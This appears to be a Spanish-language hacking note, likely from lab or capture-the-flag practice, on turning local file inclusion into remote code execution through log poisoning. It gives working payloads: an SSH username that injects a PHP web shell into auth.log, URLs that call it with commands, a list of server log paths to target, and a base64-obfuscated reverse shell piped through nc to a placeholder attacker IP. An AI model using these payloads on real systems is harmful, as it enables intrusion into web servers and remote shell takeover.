 ```bash
ssh '<?php system($_GET['c']); ?>'@192.168.1.129
```

ahora al ver ese archivo le pasamos la variable **c** para la ejecucion remota.

```bash
192.168.1.129/lfi/lfi.php?file=/var/log/auth.log&c=ifconfig
```


Otras posibles rutas de logs son.

```bash
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

** NOTA:**

**Tenga en cuenta que si utiliza comillas dobles para el shell en lugar de comillas simples , las comillas dobles se modificarán para la cadena " quote; ", PHP arrojará un error allí y no se ejecutará nada más** .

---------------------------------------------------------------------

En el caso de tener acceso al **/var/log/auth.log** y verlo desde el navegardor se puede ver el contenido de inicio de sesion de ssh (usuario de logueo exitosos o fallidos).

Entonces si esto lo podemos ver desde el navegador podemos, al conectarnos por ssh, en lugar de poder el usuario colocar un codigo malicioso en php.

```bash
ssh '<?php system('whoami'); ?>'@10.10.10.12

# 10.10.10.12 es la maquina donde tiene ese archivo log
```

ponemos cualquier contraseña (de todos modos ira al archivo log) y al recargar el archivo de logs desde el navegador vemos que se ejecuta comandos.

Con base64:

```bash
ssh '<?php system("echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgPElQIEtBTEk+IDEyMzQgPi90bXAvZg== | base64 -d | bash"); ?>'@10.10.10.12
```
